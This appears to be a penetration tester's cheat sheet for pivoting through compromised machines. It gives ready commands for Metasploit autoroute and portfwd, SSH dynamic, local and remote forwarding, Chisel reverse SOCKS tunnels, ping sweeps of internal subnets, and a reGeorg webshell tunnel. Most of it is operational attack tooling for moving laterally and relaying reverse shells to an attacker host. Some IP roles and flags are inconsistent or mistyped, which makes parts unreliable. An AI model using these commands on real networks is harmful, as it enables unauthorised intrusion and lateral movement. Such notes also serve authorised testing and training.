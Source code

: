 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```




# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```





## Chisel Proxy
https://www.youtube.com/watch?v=pbR_BNSOaMk
### Chisel Reverse
- Execute following command on the compromised machine
```
chisel server --socks5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
### Chisel Direct
- Use for reverse-shell connections
```
chisel client --fingerprint "       " 192.168.1.100:8080 0.0.0.0:9999:192.168.1.100:9999 (without 0.0.0.0 also works)
```







# Metasploit PortForwarding and Getting ReverseShell Instead of Bindshell
- Need meterpreter session on compromised machine
- Route traffic inside internal network
```
portfwd add -R -L 10.10.16.3(attacking machine ip) -l 8888(attacking machine port) -p 7777(compromised machine 1 port) -r 10.0.24.164(compromised machine 1)
```
- Open another msfconsole with multi/handler and set lhost to 0.0.0.0(attacking machine) , set lport to 8888(attacking machine port)
- In revershell payload set lhost to 10.0.24.164(compromised machine 1) set lport to -p 7777(compromised machine 1 port)
- What happened is when victim connect reverse shell back, it connect to compromised machine 1 first on port 7777, but it is forwarded to 0.0.0.0(attacking machine) on port 8888 and got the connection.






# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do ping -c1 -W1 192.168.1.${i} & done | grep
```









# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```






# reGeorg (Used for unprivileged user compromised)

- On attacker machine
- On victim machine, upload tunnel.php
```
python reGeorgproxy.py -p 9050 -u http://ipaddress:port/
```


